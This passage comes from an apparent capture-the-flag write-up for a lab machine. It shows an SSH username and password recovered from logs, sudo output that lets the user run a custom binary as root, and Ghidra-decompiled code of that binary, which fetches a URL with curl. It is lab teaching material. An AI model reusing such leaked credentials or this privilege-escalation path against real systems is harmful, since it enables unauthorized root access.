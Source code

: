 ![](screenshots/password-leak-from-logs.png)

In the tool output, one strings looks interesting, and looks like that user input password in the username which logged in the event.

* ssh creds -> `smorton:Def@ultf0r3nz!csPa$$`

# Privesc

## Reversing C binary

User "smorton" can run `/usr/bin/binary` binary as root.
```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Here is the main function of the binary, de-compiled using `ghidra`
```c++
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *param0;
  char *param0_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
```